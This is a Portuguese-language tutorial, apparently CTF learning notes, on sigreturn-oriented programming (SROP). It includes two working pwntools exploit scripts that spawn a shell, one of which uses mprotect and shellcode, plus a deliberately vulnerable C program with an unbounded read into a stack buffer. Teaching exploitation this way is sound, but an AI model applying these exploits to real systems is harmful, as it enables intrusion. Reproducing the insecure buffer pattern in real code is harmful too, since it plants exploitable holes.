

SROP
Teoria
Essa técnica que permite voce tornar a stack executável com somente 2 gadgets!
A técnica depende da maneira como sistemas UNIX cuidam dos seus processos!
Caso voce precise de uma revisão em mprotect + ret2shellcode :D
Processos e Signals
Sigreturn
Quando o processo e interrompido, o kernel cria um stack frame
para o signal handler (independentemente de padrão, ou
implementado pelo programa)... Semelhantemente a quando ocorre uma
call !
Assim como em funções (aonde os registers non-scratch precisam
ser salvos), para criar o signal handler antes precisamos salvar
o estado atual usando um struct sigreturn context !


Para retornar, o signal handler nao pode usar um simples ret,
portanto usando a syscall sigreturn (rax = 0xf)
A syscall era consumir o sigreturn context e continuar execução
normalmente!
Pera ai, e se nos criarmos um sigreturn context falso e chamarmos
essa syscall manualmente????? Como se nos fossemos um
signal handler retornando?????
Fake
Para facilitar a criação desse struct, podemos usar o nosso amigo pwntools: pwntools SROP
Criando um struct vazio, e preenchendo-o!
frame = SigreturnFrame(arch="amd64")
frame.rax = 0xa
frame.rsi = 0x10
frame.rdx = 1234
frame.rip = 123
OBS: O struct e dependente da arquitetura, por exemplo, os registers presente num processador ARM sao diferentes de um amd
OBS 2: Voce nao coloca p64() nos valores, se nao buga sei la
Agora, nos somente precisamos de uma chain que chame sigreturn
Eu imagino que voce possa chamar o wrapper em libc, mas para chamar a syscall basta executar!
mov rax, 0xf ; 15
syscall ; ou int_80 em 32 bits sei la
Exemplo Sem leaks
Tabela de syscalls linux: filippo.io
Download
Solução
#!/usr/bin/python3
from pwn import *
elf = ELF("small_boi")
io = process(elf.path)
syscall = 0x400180 # mov eax, 0xf; syscall;
# +5 = so a syscall
sig = SigreturnFrame(arch='amd64')
sig.rax = 59 # execve
sig.rip = syscall+5
sig.rdi = next(elf.search(b"/bin/sh\x00"))
payload = b'A'*40 # cyclical_find
payload += p64(syscall)
payload += bytes(sig)
io.sendline(payload)
io.interactive()
Exemplo Com Leaks
srop.c
#include <stdio.h>
#include <stdlib.h>
// gcc srop.c -o srop -no-pie -fno-stack-protector
void syscall_(){
__asm__("syscall; ret;");
}
void set_rax(){
__asm__("movl $0xf, %eax; ret;");
}
int main(){
// ONLY SROP!
char buff[100];
printf("Buff @%p, can you SROP?\n", buff);
read(0, buff, 5000);
return 0;
}
Exploit
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("./srop")
io = process(elf.path)
io.recvuntil('@')
stack_leak = int(io.recv(14),16)
log.info("Stack Leak: " + hex(stack_leak))
io.recvuntil("?\n")
# Pular Func Prologo
elf.sym.syscall_ += 4
# pwndbg> disassemble syscall_
# Dump of assembler code for function syscall_:
# 0x0000000000401132 <+0>: push rbp
# 0x0000000000401133 <+1>: mov rbp,rsp
# 0x0000000000401136 <+4>: syscall
# 0x0000000000401138 <+6>: ret
# 0x0000000000401139 <+7>: nop
# 0x000000000040113a <+8>: pop rbp
# 0x000000000040113b <+9>: ret
elf.sym.set_rax += 4
# pwndbg> disassemble set_rax
# Dump of assembler code for function set_rax:
# 0x000000000040113c <+0>: push rbp
# 0x000000000040113d <+1>: mov rbp,rsp
# 0x0000000000401140 <+4>: mov eax,0xf
# 0x0000000000401145 <+9>: ret
# 0x0000000000401146 <+10>: nop
# 0x0000000000401147 <+11>: pop rbp
# 0x0000000000401148 <+12>: ret
payload = b""
payload += asm(shellcraft.execve("/bin/sh\x00"))
payload += b"A"*(120 - len(payload))
payload += p64(elf.sym.set_rax)
payload += p64(elf.sym.syscall_) # sigreturn syscall
frame = SigreturnFrame(arch="amd64")
frame.rax = 0xa # mprotect syscall
frame.rdi = (stack_leak >> 12) << 12 # Addr
frame.rsi = 0x21000 # Size
frame.rdx = 7 # Perms
frame.rip = elf.sym.syscall_ # syscall (mrprotect); Ret
frame.rsp = stack_leak + len(payload) + len(frame) # ret addr
# \\
payload += bytes(frame) # \\
payload += p64(stack_leak) # <------------
#
# stack_leak ---> shellcode
io.sendline(payload)
io.interactive()